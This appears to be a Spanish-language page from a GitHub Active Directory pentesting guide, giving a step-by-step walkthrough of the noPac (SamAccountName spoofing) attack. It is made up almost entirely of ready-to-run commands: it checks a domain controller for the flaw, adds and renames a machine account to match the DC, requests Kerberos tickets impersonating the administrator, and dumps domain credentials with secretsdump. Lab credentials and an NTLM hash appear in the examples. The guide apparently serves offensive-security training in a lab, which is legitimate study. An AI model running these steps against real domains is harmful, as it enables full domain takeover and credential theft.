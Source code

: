 # SamAccountName (nopac)

Para este ataque se va a añadir un ordenador, borrar el SPN de ese ordenador, renombrar el ordenador con el mismo nombre que el DC, obtener un TGT para ese ordenador, restablecer el nombre del ordenador a su nombre original, obtener un ticket de servicio con el TGT que obtuvimos anteriormente y finalmente dcsync :)


```Bash
# Comprobamos que el equipo es vulnerable a nopac
poetry run crackmapexec smb <ip del DC> -u <user> -p <pass> -M nopac

cme ldap winterfell.north.sevenkingdoms.local -u jon.snow -p iknownothing -d north.sevenkingdoms.local -M MAQ
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/files/nopac1.png?raw=true "Check NoPac")

```Bash
# Necesitamos una versión específica de impacket para los scripts renameMachine.py y getST.py (En exegol ya viene preinstalada)
git clone https://github.com/SecureAuthCorp/impacket myimpacket
cd myimpacket
git fetch origin pull/1224/head:1224
git fetch origin pull/1202/head:1202
git merge 1202
git merge 1224
cd ..
git clone https://github.com/dirkjanm/krbrelayx
```

Proceso de ejecución:

```Bash
# Añadimos un nuevo equipo
python addcomputer.py -computer-name 'samaccountname$' -computer-pass 'ComputerPassword' -dc-host <nombre completo del DC en el dominio> -domain-netbios <dominio> '<dominio>/<user>:<pass>'
# Borramos el SPN del equipo con el script que debemos sacar del repositorio de GitHub: https://github.com/dirkjanm/krbrelayx
python addspn.py --clear -t 'samaccountname$' -u '<dominio>/<user>' -p 'pass' '<nombre completo del DC en el dominio>'
# Renombrar el nuevo equipo con el nombre del DC
python renameMachine.py -current-name 'samaccountname$' -new-name '<nombre DC>' -dc-ip '<nombre completo del DC en el dominio>' <dominio>/<user>:<pass>
# Obtenemos el TGT
python getTGT.py -dc-ip '<nombre completo del DC en el dominio>' '<dominio>'/'<nombre DC (nuevo equipo)>':'<pass equipo>'
# Devolvemos el nuevo equipo al nombre original
python renameMachine.py -current-name '<nombre DC (nuevo equipo)>' -new-name 'samaccountname$' <dominio>/<user>:<pass>
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/files/nopac2.png?raw=true "NoPac manual 1")
```Bash
# Obtenemos el ST (service ticket) con S4U2self usando el TGT previo
export KRB5CCNAME=<nombre DC (nuevo equipo)>.ccache
python getST.py -self -impersonate 'administrator' -altservice 'CIFS/<nombre completo del DC en el dominio>' -k -no-pass -dc-ip '<nombre completo del DC en el dominio>' '<dominio>'/'<nombre DC (nuevo equipo)>' -debug
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/files/nopac3.png?raw=true "NoPac manual 2")
```Bash
# DCSync presentando el ST
export KRB5CCNAME=administrator@CIFS_<nombre completo del DC en el dominio>@<dominio completo>.ccache
python secretsdump.py -k -no-pass -dc-ip '<nombre completo del DC en el dominio>' @'<nombre completo del DC en el dominio>'
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/files/nopac4.png?raw=true "NoPac manual 3")
```Bash
# Eliminamos el equipo creado
python addcomputer.py -computer-name 'samaccountname$' -delete -dc-host <nombre completo del DC en el dominio> -domain-netbios <dominio> -hashes 'aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4' '<dominio>/Administrator'
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/files/nopac5.png?raw=true "NoPac manual 4")

